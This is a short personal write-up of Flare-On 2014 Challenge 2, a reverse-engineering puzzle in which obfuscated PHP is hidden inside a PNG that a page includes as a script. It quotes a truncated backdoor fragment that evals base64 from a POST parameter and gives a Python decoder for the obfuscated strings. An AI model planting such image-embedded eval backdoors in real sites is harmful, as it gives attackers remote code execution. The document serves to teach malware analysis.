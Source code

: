 
2025-04-10 11:39

Source: #reversing 

Tags: [[png]] 

We get a html file. So we look at page source of _home.html_. One line in particular stands out:

```
<?php include "img/flare-on.png" ?>
```

Why would a PNG image be loaded as a [[PHP]] script? When we open this image with an image viewer, the banner comes up so it is definitely an image. Since we know that the image is being loaded as a PHP script, we search for _php_ inside of the image file , Use `HxD`

[[strings]] equivalent in windows is 
```
more flare-on.png | findstr "."
```

get the `php` code and towards the end of the code replace `eval` with `print`
we get another piece of php code - repeat the process of replacing `eval` with `print`

we get b64 encoded php code on decoding it we see a mix of ascii and hex
```
if(isset($_POST["\97\49\49\6...\x6D"]))
{
eval(base64_decode($_POST["\97\49\x...
```

use the py script below to decode
```
#!/usr/bin/env python

def decode_list(l):
    o = []

    for i in l:
        if i[0] == "x":
            o.append(chr(int('0%s' % i, 0)))
        else:
            o.append(chr(int(i)))

    return ''.join(o)

print ("1st string: %s" % decode_list(["97", ..., "x6D"]))

print ("2nd string: %s" % decode_list(["97", "49", ..., "x6D"]))
```

we get the decoded mail that leads to the next challenge
### References
Flare-on 2014 C2
https://cloud.google.com/blog/topics/threat-intelligence/the-flare-on-challen/
[The-FLARE-On-Challenge-01/Challenge-2 - aldeid](https://www.aldeid.com/wiki/The-FLARE-On-Challenge-01/Challenge-2)